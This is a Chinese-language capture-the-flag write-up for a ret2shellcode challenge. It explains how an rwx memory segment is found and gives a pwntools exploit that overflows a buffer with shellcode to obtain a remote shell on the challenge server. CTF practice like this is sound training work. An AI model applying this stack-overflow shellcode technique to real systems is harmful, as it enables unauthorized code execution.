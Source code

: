 # [HNCTF 2022 Week1]ret2shellcode

从题目上可以发现这个是一个shellcode题目

因此我们先上三件套

![image-20250201143822418](./../images/image-20250201143822418.png)

这里发现其实他开了一个nx保护从理论上来说他是不能执行shellcode的因此我们要看看gdb的内存分配

![image-20250201144008607](./../images/image-20250201144008607.png)

在这里发现一个有777权限的程序段因此我们可以想办法在这个段中执行shellcode代码

所以我们的exp为

```python
from apport.hookutils import attach_casper_md5check
from pwn import *

io = remote("node5.anna.nssctf.cn",24945)
context.arch="amd64"
context.log_level='debug'
buff_addr = 0x4040A0

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x108,b'\x00')+p64(buff_addr)
io.sendline(payload)
io.interactive()

```

